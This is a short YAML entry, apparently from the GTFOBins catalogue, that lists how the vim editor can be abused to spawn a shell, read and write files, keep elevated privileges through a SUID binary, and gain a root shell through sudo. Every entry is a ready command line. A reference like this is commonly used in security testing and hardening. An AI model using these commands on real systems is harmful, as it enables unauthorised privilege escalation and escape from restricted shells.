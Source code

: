 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid:
    - code: ./vim -c ':!/bin/sh -p'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
---
```

